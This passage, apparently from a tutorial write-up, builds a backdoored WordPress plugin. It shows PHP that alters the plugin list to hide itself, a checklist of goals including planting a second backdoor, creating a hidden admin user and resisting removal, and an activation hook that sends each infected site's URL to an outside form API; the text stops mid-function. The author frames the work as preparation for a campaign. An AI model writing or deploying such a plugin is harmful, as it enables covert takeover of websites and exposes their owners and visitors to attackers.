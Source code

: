 ```php
    // Subtract one from the count of non-auto-updatable plugins
    $auto_update_plugins = get_site_transient('update_plugins');
    if (isset($auto_update_plugins->no_update) && is_array($auto_update_plugins->no_update)) {
        $auto_update_disabled_plugin_count = 0;
        $class_auto_update_disabled = (strpos($views['auto-update-disabled'], 'current') === false) ? '' : 'current';
        $views['auto-update-disabled'] = '<a href="update-core.php?plugins=0" class="' . $class_auto_update_disabled . '">' . __('Auto-updates disabled') . ' <span class="count">(' . $auto_update_disabled_plugin_count . ')</span></a>';
    }

    return $views;
}
```

![Plugin after activation](/2.png)

### Recap of Requirements

- [x] Set our backdoor by activating the plugin waiting for us to trigger it.
- [x] Plant a second backdoor.
- [x] Hide himself from plugins list.
- [ ] Send us a notification regarding the website that activated it.
- [x] Allow user creation with admin privileges.
- [x] Hide that admin user from a regular users inspection.
- [x] Be difficult to find and remove.
- [ ] Be both easy and difficult to trigger (more on that later).

We still haven't met all the requirements yet. The last requirement will be fulfilled once the plugin is production ready right before starting our campaign. You'll see.

The second requirement needs a bit of study still but I found a way to satisfy it: **by leveraging a static form API**.

```php
// Register activation hook
register_activation_hook(__FILE__, 'send_notification');

// Activation callback function
function send_notification() {
    // Get the current website URL
    $current_url = get_site_url();

    // Set up form data with the correct access key
    $form_data = array(
        'accessKey' => 'here-goes-your-api-key', // Replace with the actual valid access key
        'name' => $current_url
    );

    // Define API endpoint
    $api_endpoint = 'https://api.staticforms.xyz/submit';

    // Set up cURL options
    $ch = curl_init($api_endpoint);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    curl_setopt($ch, CURLOPT_POSTFIELDS, http_build_query($form_data));
    curl_setopt($ch, CURLOPT_POST, true);

    // Execute cURL and get the response
    $response = curl_exec($ch);

    // Close cURL connection
    curl_close($ch);

    // Log the information in the error log
```